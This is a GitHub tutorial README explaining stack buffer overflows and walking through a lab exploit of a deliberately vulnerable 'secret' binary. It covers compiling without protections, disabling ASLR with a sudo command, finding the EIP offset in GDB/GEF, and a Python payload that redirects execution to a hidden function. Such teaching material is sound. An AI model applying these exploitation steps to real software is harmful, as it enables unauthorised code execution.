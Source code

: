 # BufferOverflow

<h2>A buffer overflow occurs when a program writes more data to a buffer (a memory area) than it can handle. This can overwrite important data and, in some cases, allow an attacker to execute malicious code.</h2>

![buof](https://github.com/user-attachments/assets/3d8a435a-c7b6-4119-920d-7dd348a57bd7)

<h3>How it happens:</h3>

-Buffer: A reserved area in memory for storing data.

-Overflow: If the program does not check the size of the data, it can overwrite adjacent memory areas.

<h3>Consequences:</h3>

-Data corruption and program crashes.

-Execution of malicious code if an attacker exploits the vulnerability.

<h3>Prevention:</h3>

-Validate data sizes.

-Use safe functions.

-Implement protections like ASLR and DEP.


# Introduction to Buffer Overflow: Invoking Functions via Buffer Overflows

To begin, we'll explore how a buffer overflow can be exploited to invoke a specific function within a program. This process involves manipulating memory to redirect the program's execution flow to a desired function.

To practice this buffer overflow case, we will use a C program called `secret.c` and compile it with the following command:

```bash
gcc -g -fno-stack-protector -z execstack -m32 secret.c -o secret
```

Address Space Layout Randomization (ASLR) is a security technique that randomizes memory addresses to protect against certain attacks. 

To check if ASLR is active for our binary `secret`:

```bash
ldd secret
```

![bof1](https://github.com/user-attachments/assets/b9b05657-b76e-42f0-be63-0a7759525270)

ASLR is set to 2 by default. To disable ASLR for easier buffer overflow exploitation, run:
```bash
sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
```
This change will persist until the next reboot.


The binary `secret` prompts for user input with the message "Input your data:". When the input exceeds the expected number of characters, it triggers a segmentation fault due to a buffer overflow. This occurs because the program does not properly handle or validate the input size, causing it to overwrite adjacent memory areas.

![bof2](https://github.com/user-attachments/assets/e125c018-af9f-452f-9b70-f674d8443765)


To perform the buffer overflow, we will use GDB with GEF (GDB Enhanced Features).
You can find the GEF repository at: https://github.com/hugsy/gef

To run the binary with GDB, use the command:
```bash
gdb ./secret
```

To determine the offset (how many A's you need to input to reach and overwrite the EIP), we will use the command pattern create:

```bash
pattern create
```

![bof3](https://github.com/user-attachments/assets/082c49a1-9cee-42c8-937e-0754cef063f0)

Generate a pattern of characters that we can use to determine the offset when running the program. Instead of using just a series of A's, we’ll run the program with this character pattern.

We would run it with:

```bash
r <<< 'character_pattern'
```
The `<<<` operator is used to provide a string directly as input to a command or program.

Now we can determine how many characters are needed to reach the EIP using the following command:

```bash
pattern offset $eip
```

![bof4](https://github.com/user-attachments/assets/efc4ef08-fe89-4867-ae3e-94fde127d566)

In this case, the offset is 76, so we can run the following command to verify that the characters are correct and that we will overwrite the EIP with the value BBBB:

```bash
r <<< $(python3 -c 'print("A"*76 + "B"*4)')
```

The **EIP** (Extended Instruction Pointer) is a CPU register that tracks the address of the next instruction to execute, and in a buffer overflow attack, overwriting it allows you to control the execution flow by redirecting it to your chosen code or exploit.

![bof5](https://github.com/user-attachments/assets/678690d1-cab5-4ae4-bf91-ee8b46e88df7)

Additionally, the `checksec` command in GDB checks security features like `NX (No Execute)` protection, which prevents code from running in certain memory regions. It helps you see which security mechanisms are active for a binary.

![bof6](https://github.com/user-attachments/assets/1979e547-2ef8-48ce-89b9-6f41f73d450b)

In our case, we want to execute the function named `secret` that is within the binary. To achieve this, we’ll use the command `p secret` to get the address of the `secret` function. We can then overwrite the EIP with this address to redirect execution to the `secret` function.

```bash
p FUNCTION_NAME
```

![bof7](https://github.com/user-attachments/assets/d9084be8-73a6-403f-8efa-37d090c98736)

Now, we need to format the address in **little-endian** (e.g., `0x080484b6` as `\xb6\x84\x04\x08`) because systems store multi-byte values in this order, ensuring the function is executed correctly.

In our case it will be: 0x5655619d -> \x9d\x61\x55\x56

We will now create the payload using `sys.stdout.buffer.write()` instead of `print()` because it writes the data as raw bytes, ensuring that each byte is preserved exactly as needed. This is crucial for accurately overwriting the EIP with the correct memory address, especially when handling non-printable characters in the exploit.

Next, we'll execute the binary with our crafted payload using the command:

```bash
./secret $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\x9d\x61\x55\x56")')
```

This command runs the `secret` binary while injecting the payload directly, aiming to overwrite the EIP with the address of the `secret` function.

![bof8](https://github.com/user-attachments/assets/8cb7ccb8-7d12-4270-b767-9bd6c8cb6e26)

As a result, the function was executed, printing the message "You have exploited the buffer overflow!" before the program crashed with a segmentation fault.

You can also save the payload in a Python script and execute it when running the `secret` binary, simplifying the injection process.

```python3
import sys

secret_func_address = b'\x9d\x61\x55\x56'
payload = b'A' * 76 + secret_func_address

sys.stdout.buffer.write(payload)
```

![bof9](https://github.com/user-attachments/assets/52f80186-b3d2-4e3d-a361-28f8dbb49a01)

